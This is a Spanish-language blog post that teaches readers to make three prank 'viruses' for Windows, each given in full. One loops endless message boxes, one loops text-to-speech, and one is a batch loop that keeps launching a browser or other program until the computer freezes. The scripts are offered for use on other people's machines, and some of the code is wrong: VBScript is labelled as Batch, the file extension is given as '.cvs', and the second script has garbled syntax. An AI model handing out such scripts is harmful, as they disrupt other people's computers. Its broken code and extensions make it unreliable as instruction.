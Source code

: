 ```yaml
---
layout: single
title: Tres tipos de virus y como crearlos
excerpt: "En este post, vamos a estar viendo como podemos crear muy fácilmente tres virus para windows"
date: 2022-02-04
classes: wide
header:
  teaser: /assets/images/tres_tipos_de_virus_y_como_crearlos_1.jpg
  teaser_home_page: true
categories:
  - Virus
  - Windows
  - Noob
  - Batch
tags:
  - Virus
  - Noob
  - Windows
  - Batch
---
```


![](/assets/images/tres_tipos_de_virus_y_como_crearlos_1.jpg)

Buenas tardes a todos, hoy vamos a aprender como crear tres tipos de virus para gastar alguna broma.

##ATENCIÓN:   EL CREADOR DES ESTE BLOG NO SE HACE RESPONSABLE DEL MAL USO QUE SE LE PUEDA DAR A ESTE PROYECTO, EL CUAL FUE CREADO CON FINES EDUCATIVOS.

Cada virus, es de un nivel diferente, el nivel 1 es el más fácil de desactivar, pero el 3 puedes llegar a tener que apagar el ordenador.


# Nivel 1 .cvs
_______________________________________________
```Batch

do 
Mensaje=msgbox("Hola" ,16, "Mensaje") 
Mensaje=msgbox("¿Qué haces?" ,16, "Mensaje") 
Mensaje=msgbox("Quieres salir?" ,16, "Mensaje") 
Mensaje=msgbox("Estas segur@?" ,16, "Mensaje") 
Mensaje=msgbox("Pero no puedes" ,16, "Mensaje") 
Mensaje=msgbox("infinito python" ,16, "Mensaje") 
loop 
```

En este nivel, se crean un montón de carteles con la frase que quieras, sustituyendo las frases que están entre comillas por la que quieras.


# Nivel 2 .cvs

_______________________________________________

```Batch
do 
Dim var1, var2 var1="infinito python" 
Set va2=CreateObject("sapi.spvoice") 
va2.Speak 
var1 
loop 
```




En este script, lo que hace es hablar todo el contenido donde está situado infinito python.





# Nivel 3 .bat

_______________________________________________



```Batch
:bucle 
@echo off 
start iexplore.exe 
goto bucle 
```



_______________________________________________


El "iexplore.exe" lo puedes cambiar por "explorer.exe " o "chrome.exe" o "winword.exe" o "notepad.exe"


_______________________________________________




Este último nivel, es el más peligroso, por que empieza a abrir páginas de la aplicación deseada lo cual puede ocasionar que el pc se congele y haya que reiniciarlo.


Excepto el 3, puedes desactivar cualquiera desde el administrador de tareas (ctrl+alt+supr, buscando el nombre del archivo y finalizando la tarea.



En el nombre de los niveles, he puesto la terminación con la que hay que guardar el archivo para que funcione.





